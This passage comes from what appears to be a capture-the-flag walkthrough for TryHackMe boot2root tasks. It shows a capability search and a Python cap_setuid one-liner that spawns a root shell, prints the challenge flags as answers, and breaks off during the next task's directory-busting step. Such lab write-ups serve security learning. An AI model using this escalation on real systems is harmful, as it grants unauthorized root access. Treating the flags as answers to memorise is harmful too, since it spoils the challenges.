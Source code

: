Checked capabilities:

```bash
getcap -r / 2>/dev/null
```

✅ Found cap\_setuid=ep on /usr/bin/python3.10.

---

#### 7. **Exploited capability:**

```bash
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

✅ Got root, retrieved root flag:

```
THM{check_check_check_mate}
```

---

### 💡 **Lessons Learned**

* Finger service leaks remain critical on IoT networks.
* Capability-based escalations bypass traditional sudo restrictions.

---

<a id="task-16--under-construction"></a>

## 📝 **Task 16 – Under Construction**

### 🗂️ **Category:** Boot2Root

### 🎯 **Difficulty:** Easy

### 🏷️ **Flags:**

* User: THM{nic3\_j0b\_You\_got\_it\_w00tw00t}
* Root: THM{y0u\_g0t\_it\_welldoneeeee}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Directory busting revealed:**

```
/keys/
```

✅ Navigated to /keys/, found multiple keys.

---
